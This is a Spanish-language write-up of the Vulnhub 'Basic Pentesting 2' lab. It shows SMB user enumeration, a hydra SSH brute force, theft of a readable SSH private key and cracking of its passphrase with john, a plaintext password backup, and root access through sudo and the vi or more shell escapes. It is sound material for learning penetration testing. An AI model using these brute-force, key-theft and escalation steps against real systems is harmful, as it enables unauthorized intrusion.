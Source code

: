 ```yaml
---
title: "Vulnhub #1: CSEC Basic Pentesting 2"
description: Pentesting a máquina CSEC 2 en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Descubrimiento de hosts

Tras iniciar la maquina escaneamos con `sudo netdiscover`.

Estos son las IP del lab:

```plaintext
Ubuntu(host): 192.168.0.20
Kali(VM):     192.168.0.16
Victima:      192.168.0.17
```

## Servicios
```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

Si lanzamos `nmap -sT -sV -A -vvv 192.168.0.17` y no obtenemos ninguna vulnerabilidad explotable.

Sin embargo, podemos intentar enumerar usuarios de samba con `enum4linux <ip>`
Obtenemos dos usuarios:

```plaintext
kay
jan
```

## Ataque SSH

Lanzamos hydra con rockyou.txt usando `hydra -l kay -P ./rockyou.txt ssh://192.168.0.17`

La contraseña es `armando`

Una vez dentro podemos hacer `ls -lisaR /home` para analizar las carpetas de usuarios.

Ahi podemos ver que en la carpeta .ssh del usuario kay tiene un `id_rsa` con permisos globales de lectura.

```
/home/kay/.ssh:
total 20
798691 4 drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
786930 4 drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
798921 4 -rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
798917 4 -rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
798918 4 -rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:~$ cat /home/kay/.ssh/id_rsa
```

## Usando una clave robada

Podemos copiar el archivo y usarlo para intentar entrar en la maquina con `ssh kay@ip -i clave-robada`

Whooops! Nos devuelve esto:

```plaintext
Permissions 0664 for 'id_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_key": bad permissions
```

Debemos dar permisos de lectura y escritura para usuario y grupo con `chmod 400 clave-robada`

Ahora nos pide la contraseña de la clave.

Esa contraseña está DENTRO de nuestro archivo `clave-robada`.

Convierte la clave a un formato que john entienda con `ssh2john clave-robada > clave-formato-john`

Una vez listo podemos romper la contraseña con `john clave-formato-john --wordlist=rockyou.txt`

```plaintext
beeswax          (clave-robada)     
1g 0:00:00:00 DONE (2024-09-17 06:09) 12.50g/s 1034Kp/s 1034Kc/s 1034KC/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Si hacemos `ssh kay@ip -i clave-robada`

Nos pedirá la contraseña `beeswax` descubierta antes.

Estamos dentro!

¿Que podemos hacer ahora?

## Escalando privilegios

Podemos volver a usar `ls -lisaR /home` para listar de nuevo por si hubiera cosas que no hemos visto antes

Tenemos un `pass.bak` que podemos leer:

```plaintext
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Si intentamos usar `sudo -l` para ver que podemos lanzar nos pedirá una contraseña.

Podemos pasar esa contraseña y ver que podemos lanzar `sudo su`

```plaintext
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Tras lanzarlo, ya somos `root`.


### Otras formas de conseguir `root`:

#### sudo vi

```plaintext
sudo vi
Escribimos :!sh y nos devuelve una consola root
```

#### more

```plaintext
Escribimos un archivo relativamente largo y lo abrimos con `more` y tenemos algo similar a vi
Con !sh podremos abrir otra consola.
```
